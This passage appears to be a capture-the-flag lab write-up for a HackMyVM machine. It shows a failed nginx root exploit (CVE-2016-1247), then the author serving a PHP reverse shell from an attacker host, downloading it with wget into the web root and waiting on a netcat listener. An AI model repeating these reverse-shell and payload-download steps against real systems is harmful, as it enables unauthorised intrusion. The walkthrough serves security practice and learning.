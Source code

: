 ```
             -XXXXXXXX---------------  XXXXXX-
                \XXXXXXXXXXXXXXXXXXXXXXXXXX/
                  ""VXXXXXXXXXXXXXXXXXXV""
 
Nginx (Debian-based distros) - Root Privilege Escalation PoC Exploit (CVE-2016-1247)                                                                                                                                                         
nginxed-root.sh (ver. 1.0)                                                                                                                                                                                                                   
                                                                                                                                                                                                                                             
Discovered and coded by:                                                                                                                                                                                                                     
                                                                                                                                                                                                                                             
Dawid Golunski                                                                                                                                                                                                                               
https://legalhackers.com                                                                                                                                                                                                                     

[+] Starting the exploit as: 
uid=1000(john) gid=1000(john) groups=1000(john),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)

[!] You need to execute the exploit as www-data user! Exiting.
```

#Reverse Shell
Since we have access to /var/www/html lets try to upload a RS and get this www-data user.
I personaly use Pentest monkey.

```console
┌──(coolatos㉿CooLaToS)-[~/HMV/webmaster]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...


john@webmaster:/tmp$ wget 10.1.1.11/shell.php
--2022-07-12 07:41:04--  http://10.1.1.11/shell.php
Connecting to 10.1.1.11:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [application/octet-stream]
Saving to: ‘shell.php’

shell.php                                                   100%[========================================================================================================================================>]   5.36K  --.-KB/s    in 0s      

2022-07-12 07:41:04 (110 MB/s) - ‘shell.php’ saved [5493/5493]

john@webmaster:/tmp$ cp shell.php /var/www/html/

┌──(coolatos㉿CooLaToS)-[~/HMV/webmaster]
└─$ nc -nlvp 8888
listening on [any] 8888 ...

-bash: curl: command not found
john@webmaster:/tmp$ wget localhost/shell.php
--2022-07-12 07:43:54--  http://localhost/shell.php
Resolving localhost (localhost)... ::1, 127.0.0.1
Connecting to localhost (localhost)|::1|:80... connected.
HTTP request sent, awaiting response... 
```